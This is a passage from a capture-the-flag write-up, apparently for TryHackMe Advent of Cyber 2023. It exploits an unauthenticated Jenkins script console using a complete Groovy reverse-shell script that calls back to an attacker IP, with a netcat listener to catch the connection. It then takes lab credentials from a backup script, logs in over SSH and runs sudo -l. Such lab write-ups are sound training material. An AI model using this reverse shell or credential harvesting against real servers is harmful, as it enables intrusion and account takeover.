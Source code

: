 ![jenkins-1|600](images/thm-aoc-2023-day-9-12/jenkins-1.png)

We see that the Jenkins portal is accessible without any authentication prompt. Jenkins allows admins to run scripts for troubleshooting and debugging purposes. Let's try to use these options to get a connection to the target system.

![jenkins-2|600](images/thm-aoc-2023-day-9-12/jenkins-2.png)

```groovy
String host="10.10.137.59";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![jenkins-3|500](images/thm-aoc-2023-day-9-12/jenkins-3.png)

Before running the script we have to set up a listener to catch the incoming connection.

```bash
nc -nvlp 6996
```

![jenkins-4|360](images/thm-aoc-2023-day-9-12/jenkins-4.png)

If we navigate to the `/opt/scripts` directory we notice a `backup.sh` script. This script contains the credentials for user `tracy`. The backup script uses SCP. This means that SSH will also be enabled on the system.

```bash
cd /opt/scripts
cat backup.sh
```

![jenkins-5|640](images/thm-aoc-2023-day-9-12/jenkins-5.png)

> Username: tracy  
> Password: 13_1n_33

Connecting to the Jenkins system using SSH

```bash
ssh tracy@10.10.165.84
```

![jenkins-6|500](images/thm-aoc-2023-day-9-12/jenkins-6.png)

```bash
sudo -l
```

![jenkins-7|600](images/thm-aoc-2023-day-9-12/jenkins-7.png)
